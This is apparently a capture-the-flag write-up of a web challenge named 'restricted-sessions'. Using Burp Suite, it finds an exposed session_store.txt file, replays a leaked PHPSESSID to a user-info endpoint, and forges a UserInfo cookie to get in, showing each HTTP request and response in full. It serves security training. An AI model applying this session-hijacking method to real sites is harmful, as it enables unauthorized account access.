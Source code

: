 link : http://34.77.37.110/restricted-sessions/ 

![image](https://user-images.githubusercontent.com/67979878/127423247-a52a7868-90c4-4ad8-83e9-799ac239cb32.png)

let's use burpsuite so we can see the request and response and see what we can do .

```
GET /restricted-sessions/ HTTP/1.1
Host: 34.77.37.110
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

the response body have an interesting piece of code

```
   <script type="text/javascript">

      if(document.cookie !== ''){
        $.post('getcurrentuserinfo.php',{
          'PHPSESSID':document.cookie.match(/PHPSESSID=([^;]+)/)[1]
        },function(data){
          cu = data;
        });
      }
    </script>

```
so if cookie is not empty it will retrieve data from /getcurrentuserinfo.php 

note :The $.post() method loads data from the server using a HTTP POST request.


sending the reqeust in the repeater and add a cookie for testing 

```
GET /restricted-sessions/ HTTP/1.1
Host: 34.77.37.110
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
cookie:PHPSESSID=test
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 2

````
and here is the result :
```
HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Thu, 29 Jul 2021 02:09:37 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 43


Session not found in data/session_store.txt
```
### so let's visit this /data/session_store.txt

```
iuqwhe23eh23kej2hd2u3h2k23
11l3ztdo96ritoitf9fr092ru3
ksjdlaskjd23ljd2lkjdkasdlk

```
it seems those are valid cookies values . let's make the same previous request with any valid cookie :

```
GET /restricted-sessions/ HTTP/1.1
Host: 34.77.37.110
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
cookie:PHPSESSID=11l3ztdo96ritoitf9fr092ru3
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

response body :
`UserInfo Cookie don't have the username , Validation failed `

so it seems the cookie needs UserInfo :( 


![Alt Text](https://media.giphy.com/media/l1KVaj5UcbHwrBMqI/giphy.gif)

we see in the js code that when there is a valid cookie it will send post request to the /getcurrentuserinfo.php . so let's make it our self with any valid cookie .

```
POST /restricted-sessions/getcurrentuserinfo.php HTTP/1.1
Host: 34.77.37.110
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
PHPSESSID=11l3ztdo96ritoitf9fr092ru3

```
resposne body :

```
{"name":"mary","email":"mary@example.com","session_id":"11l3ztdo96ritoitf9fr092ru3"}

```

### now we have  a UserInfo we can use in the get request to the main page !



```
GET /restricted-sessions/ HTTP/1.1
Host: 34.77.37.110
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
cookie:PHPSESSID=11l3ztdo96ritoitf9fr092ru3;UserInfo=mary
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

```
showing response in browser :

![image](https://user-images.githubusercontent.com/67979878/127428308-eb6defef-be0d-47f9-a836-9e56023a9969.png)




![Alt Text](https://media.giphy.com/media/1BFEEIo4h1BuTH8eqP/giphy.gif)




